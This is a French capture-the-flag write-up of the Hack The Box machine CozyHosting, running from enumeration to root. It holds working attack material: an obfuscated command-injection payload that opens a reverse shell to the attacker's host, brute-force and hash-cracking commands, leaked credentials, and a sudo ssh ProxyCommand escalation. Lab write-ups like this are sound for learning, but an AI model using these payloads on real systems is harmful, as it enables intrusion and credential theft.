





<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">CozyHosting</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.230</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -A -n -p- 10.10.11.230             
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

### /etc/hosts : cozyhosting.htb
Quand on tape l'ip dans firefox, ca nous redirige directement vers le nom de domaine : **cozyhosting.htb**
```bash
## Dans /etc/hosts
## ...
10.10.11.230    cozyhosting.htb
```

### hydra : port 80
Le brute force n'a pas fonctionné...
```bash
sudo hydra -l info@cozyhosting.htb -P /usr/share/wordlists/rockyou.txt cozyhosting.htb http-post-form "/login:username=^USER^&password=^PASS^:Invalid username or password" -I

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt cozyhosting.htb http-post-form "/login:username=^USER^&password=^PASS^:Invalid username or password" -I 
```

### dirbuster, gobuster, dirsearch
On a essayé de trouver un dossier à l'aide de dirbuster, mais il n'y avait rien de concluant.

Cependant, avec l'outil **dirsearch** (qui fait la meme chose que dirbuster et gobuster), on a pu voir qu'un dossier **actuator** était accessible. C'est parce que ce mot clée était présent dans la liste utilisé& par défaut pas dirsearch qu'on a pu trouver. Il aurait donc suffit de dirbuster/gobuster, ce mot n'était jsute pas présent dans la liste que j'utilisais. Voici le lien github pour dirsearch :  
https://github.com/maurosoria/dirsearch

Le dossier trouvé intéressant est **actuator**.
```bash
┌──(kali㉿kali)-[~/github/dirsearch]
└─$ python3 dirsearch.py -u http://cozyhosting.htb

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                                                                   
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                            
                                                                                                                                                                                                                                   
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11715

Output: /home/kali/github/dirsearch/reports/http_cozyhosting.htb/_23-12-29_17-56-26.txt

Target: http://cozyhosting.htb/

[17:56:26] Starting:                                                                                                                                                                                                               
[17:56:45] 200 -    0B  - /;/admin                                          
[17:56:45] 200 -    0B  - /;/json
[17:56:45] 200 -    0B  - /;/login
[17:56:45] 200 -    0B  - /;admin/
[17:56:45] 200 -    0B  - /;login/
[17:56:45] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[17:56:45] 200 -    0B  - /;json/                                           
[17:56:47] 400 -  435B  - /a%5c.aspx                                        
[17:56:49] 200 -    0B  - /actuator/;/auditLog                              
[17:56:49] 200 -    0B  - /actuator/;/beans
[17:56:49] 200 -  634B  - /actuator
[17:56:49] 200 -    0B  - /actuator/;/auditevents                           
[17:56:49] 200 -    0B  - /actuator/;/caches
[17:56:49] 200 -    0B  - /actuator/;/conditions
[17:56:49] 200 -    0B  - /actuator/;/configurationMetadata
[17:56:49] 200 -    0B  - /actuator/;/exportRegisteredServices
...
...
[17:57:38] 200 -    0B  - /extjs/resources//charts.swf                      
[17:57:45] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
[17:57:51] 200 -    0B  - /jkstatus;                                        
[17:57:55] 200 -    4KB - /login                                            
[17:57:55] 200 -    0B  - /login.wdm%2e                                     
[17:57:56] 204 -    0B  - /logout                                           
                                                                             
Task Completed   
```

## Foothold

### Session Cookie : kanderson user
En allant sur le lien, on a pu découvrir un autre lien:
http://cozyhosting.htb/actuator/sessions

Il semblait contenir des cookies de sessions, donc celui d'un utilisateur **kanderson**.


### Burp : Admin Page
En utilisant **Burp**, on pu envoyer une requête pour demander la page **/admin** puis la modifier à la volée pour écraser le cookie de session par celui trouvé précédemment. Et Bingo ! On arrive bien sur la page admin en tant que **kanderson**.




On peut également modifier le cookie de session directement dans l'outil de developpement du navigateur, ici firefox :



On observe un formulaire de type **POST** avec deux paramètres. Si on rentre un hostname puis pas de username, une erreur s'affiche indiquant que les parametres de ssh ne sont pas bon. Une injection de code semble possible !




### Reverse Shell
Sur la machine hote, on prepare un reverse shell comme on va pouvoir envoyer dans burp à la machine cible. On le convertie en base64
```bash
┌──(kali㉿kali)-[~]
└─$ echo "bash -i >& /dev/tcp/10.10.14.25/44444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0NCAwPiYxCg==
```

```bash
## On execute une commande pour decoder le payload en base64 puis on appel "bash" pour executer le payload
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS80NDQ0NCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

## URL encoded :
%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMjUvNDQ0NDQgMD4mMQo%3D%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```
On envoie dans Burp en passant le payload dans une variable du formulaire POST :



Sur la machine hôte, on attend avec **nc** sur le port 44444
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 44444
listening on [any] 44444 ...
connect to [10.10.14.125] from cozyhosting.htb [10.10.11.230] 39782
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
app@cozyhosting:/app$ export TERM=xterm
export TERM=xterm
app@cozyhosting:/app$ ^Z
zsh: suspended  nc -lvp 44444

                                                                
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 44444

app@cozyhosting:/app$
```

### python -m http.server 4444
On trouve sur la machine un fichier **.jar** intéressant.

### PSQL bdd credentials
Voici les infos qu'on a pu trouver dans un fichier présent dans le jar.
```bash
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

On a essayé de se connecter grâce à ces infos et ça a fonctionné !
```bash
app@cozyhosting:/app$ psql -U postgres -h localhost -p 5432 -d cozyhosting
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# 
```

### Users table : hashes
On fouillant dans la base on a trouvé la table users, avec des hashs de mots de passe.
```bash
cozyhosting=# \dt
cozyhosting=# select * from users;

-----------------------------------------

 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

### john: Cracking admin password
On a ensuite réussi a cracker le hash du mot de passe de l'utilisateur admin :
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/CozyHosting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt admin_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:34 DONE (2023-12-29 19:57) 0.02868g/s 80.55p/s 80.55c/s 80.55C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Il s'agit donc de **manchesterunited**.

### SSH josh : user flag
Un peu plus tôt, avait pu accéder au fichier /etc/passwd et on avait alors trouver un nom d'utilisateur **josh**. De plus, on pouvait aussi le trouver en se deplaçant dans **/home**. Or, cet utilisateur à le rôle administrateur donc le mot de passe devrait fonctionné en ssh:
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/CozyHosting]
└─$ ssh josh@10.10.11.230 
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 30 01:01:53 AM UTC 2023

  System load:           0.0068359375
  Usage of /:            59.8% of 5.42GB
  Memory usage:          48%
  Swap usage:            0%
  Processes:             262
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2531

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Dec 29 19:20:45 2023 from 10.10.14.94
josh@cozyhosting:~$ cat user.txt 
db25.....2400
```

## Privilege Escalation

### josh : SSH as root
On observe que josh a le droit d'executer la commande **/usr/bin/ssh** suivi de n'importe quel paramètre en mode **root**.
```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
En allant sur ce site internet, on peut trouver comment générer un shell interactif en partant d'une autre commande. Par exemple ici, pour la commande ssh :
https://gtfobins.github.io/gtfobins/ssh/


Pour la commande **ssh**, on obtient 3 manières potentiels d'obtenir un shell.


```bash
## 1ère commande
## Ca n'a pas fonctionné car il demande le mot de passe root
josh@cozyhosting:~$ sudo /usr/bin/ssh localhost $SHELL --noprofile --norc
root@localhost password: 
Permission denied, please try again.
root@localhost password: 
Permission denied, please try again.
root@localhost password: 
root@localhost: Permission denied (publickey,password).

## 2ème commande
## Ca fonctionne !! On est root sans avoir besoin du mot de passe !
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ whoami
root
$ ls
user.txt  usr
$ cd /root
$ ls
root.txt
$ cat root.txt
9ab6.....ba3d5
```